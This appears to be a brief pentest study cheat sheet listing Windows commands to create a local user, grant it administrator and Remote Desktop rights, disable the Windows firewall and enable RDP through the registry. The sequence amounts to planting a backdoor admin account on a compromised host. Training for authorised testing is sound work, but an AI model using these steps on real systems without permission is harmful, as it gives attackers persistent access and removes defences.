## Enable RDP Access

Add a user on windows: 

```powershell
net user drwily oscp /add
# net user $username $password /add
```

Add a user to the “Remote Desktop Users” group: 

```powershell
net localgroup "Remote Desktop Users" drwily /add
# net localgroup "Remote Desktop Users" $username /add
```

Make a user an administrator: 

```powershell
net localgroup administrators drwily /add
# net localgroup administrators $username /add
```

Disable Windows firewall 

```powershell
# newer versions: 
NetSh Advfirewall set allprofiles state off
# older windows: 
netsh firewall set opmode disable
```

If RDP is disabled:

```bash
# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```

